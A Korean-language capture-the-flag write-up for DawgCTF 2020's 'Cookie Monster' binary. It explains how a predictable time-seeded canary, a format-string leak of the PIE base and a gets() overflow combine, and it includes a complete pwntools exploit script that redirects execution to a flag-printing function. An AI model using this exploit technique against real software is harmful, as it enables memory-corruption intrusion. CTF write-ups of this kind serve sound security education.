 # [WriteUp]DawgCTF 2020 - Cookie Monster

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Overview

### conversation()

```c
__int64 conversation()
{
  unsigned int v0; // eax
  int v1; // eax
  char v3[5]; // [rsp+Fh] [rbp-11h]
  char s[8]; // [rsp+14h] [rbp-Ch]
  unsigned int v5; // [rsp+1Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  v5 = v1;
  saved_cookie = v1;
  puts("\nOh hello there, what's your name?");
  fgets(s, 8, _bss_start);
  printf("Hello, ");
  printf(s);
  puts("\nWould you like a cookie?");
  gets(v3);
  return check_cookie(v5);
}
```

현재 시간을 시드 값으로 해서 `rand()`를 호출하고, 그렇게 만들어진 4바이트짜리 랜덤 값은 canary와 비슷한 역할을 한다. `gets(v3);`에서 buffer overflow(BOF)가 발생하는데, 이로 인해 canary가 overwrite되면 `check_cookie()`에서 stack smashing detected라는 메시지를 출력하고 프로그램을 종료시킨다. 그러나 현재 시간을 시드로 사용하는 랜덤 값은 파이썬의 `ctypes` 모듈을 이용하면 똑같이 만들어낼 수 있기 때문에 익스플로잇에 별다른 방해가 되지는 않는다.

그러고 나서 이름을 입력받고 인사를 하는데, 이름을 출력할 때 `printf(s);`로 출력해서 format string bug(FSB)가 발생한다. FSB를 이용해서 PIE leak이 가능할 것 같다.

마지막으로 `gets()`에서 BOF를 터뜨려서 return address를 원하는 값으로 덮을 수 있을 것이다.

### flag()

```c
int flag()
{
  char *argv; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  argv = "/bin/cat";
  v2 = "flag.txt";
  v3 = 0LL;
  return execve("/bin/cat", &argv, 0LL);
}
```

플래그를 주는 함수이다. 이 함수를 호출하면 된다.

---

## Exploit plan

### Generate canary

우선 파이썬에서 `ctypes` 모듈을 이용하여 canary를 만들고, 실제 canary와 같은 값인지 비교해 보자.

```python
# exploit_cookie_monster.py

from pwn import *
from ctypes import *
from ctypes.util import *

r = process("./cookie_monster")
# r = remote("ctf.umbccd.io", 4200)

libc = CDLL(find_library('c'))
seed = libc.time(0)
libc.srand(seed)
canary = libc.rand()

print(hex(canary))

r.recvuntil("Oh hello there, what's your name?\n")
pause()
r.sendline("Dr.Nibe")

r.interactive()
```

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ python exploit_cookie_monster.py 
[+] Starting local process './cookie_monster': pid 9404
0x6e80912c
[*] Paused (press any to continue)
```

만들어진 canary는 `0x6e80912c`이다. GDB에 attach해서 실제 canary를 확인하자.

```shell
gdb-peda$ x/10gx $rsp
0x7ffd49d35370:	0x0000559ea20cf0d0	0x00007ffd49d35480
0x7ffd49d35380:	0x4e2e724400000000	0x6e80912c00656269
0x7ffd49d35390:	0x00007ffd49d353a0	0x0000559ea20cf34f
0x7ffd49d353a0:	0x0000559ea20cf360	0x00007fd7fab7c1e3
0x7ffd49d353b0:	0x00007fd7fad3c598	0x00007ffd49d35488
gdb-peda$ i r rbp
rbp            0x7ffd49d35390      0x7ffd49d35390
```

canary는 `rbp-0x4`에 위치한다. 파이썬에서 만든 값과 일치하는 것을 확인할 수 있다. 이제 canary를 무시하고 BOF를 터뜨릴 수 있다.

### PIE leak

```shell
gdb-peda$ r
Starting program: /home/dr-nibe/DawgCTF2020/cookie_monster 
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /
C is for cookie is for me
Oh hello there, what's your name?
%11$p
Hello, 0x55555555534f
...
Breakpoint 3, 0x0000555555555295 in conversation ()
gdb-peda$ x/10gx $rsp
0x7fffffffdf70:	0x00005555555550d0	0x00007fffffffe080
0x7fffffffdf80:	0x2431312500000000	0x6f0d498355000a70
0x7fffffffdf90:	0x00007fffffffdfa0	0x000055555555534f
0x7fffffffdfa0:	0x0000555555555360	0x00007ffff7deb1e3
0x7fffffffdfb0:	0x00007ffff7fab598	0x00007fffffffe088
```

11번째 format string에서 `conversation()`의 return address가 출력된다. 간단하게 PIE base를 leak할 수 있다.

### Overwrite return address

```shell
gdb-peda$ r
Starting program: /home/dr-nibe/DawgCTF2020/cookie_monster 
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /
C is for cookie is for me
Oh hello there, what's your name?
AAAA
Hello, AAAA

Would you like a cookie?
BBBB
...
Breakpoint 1, 0x00005555555552b2 in conversation ()
gdb-peda$ x/10gx $rsp
0x7fffffffdf70:	0x00005555555550d0	0x42007fffffffe080
0x7fffffffdf80:	0x4141414100424242	0x6653b04a5555000a
0x7fffffffdf90:	0x00007fffffffdfa0	0x000055555555534f
0x7fffffffdfa0:	0x0000555555555360	0x00007ffff7deb1e3
0x7fffffffdfb0:	0x00007ffff7fab598	0x00007fffffffe088
```

`gets()`로 입력받은 값은 `0x7fffffffdf7f`부터 저장된다. canary를 포함해서 dummy를 주고, `flag()`의 주소로 return address를 덮으면 된다. `flag()`의 주소는 PIE base + `0x11b5`이다.

---

## Exploit

```python
# exploit_cookie_monster.py

from pwn import *
from ctypes import *
from ctypes.util import *

# r = process("./cookie_monster")
r = remote("ctf.umbccd.io", 4200)

offset_ret = 0x134f # original return address - PIE base
offset_flag = 0x11b5 # address of flag() - PIE base

libc = CDLL(find_library('c'))
seed = libc.time(0)
libc.srand(seed)
canary = libc.rand()

print(hex(canary))

r.recvuntil("Oh hello there, what's your name?\n")
r.sendline("%11$p")
r.recvuntil("Hello, 0x")

pie = int(r.recvline()[:-1], 16) - offset_ret # PIE base
flag = pie + offset_flag # address of flag()
print("address of flag(): " + hex(flag))

payload = "A" * 0xd # dummy
payload += p32(canary)
payload += "A" * 0x8 # dummy
payload += p64(flag)

r.recvuntil("Would you like a cookie?\n")
r.sendline(payload)

r.interactive()
```

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ python exploit_cookie_monster.py 
[+] Opening connection to ctf.umbccd.io on port 4200: Done
0x6fd448ab
address of flag(): 0x55bf31b4a1b5
[*] Switching to interactive mode
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
[*] Got EOF while reading in interactive
$  
```


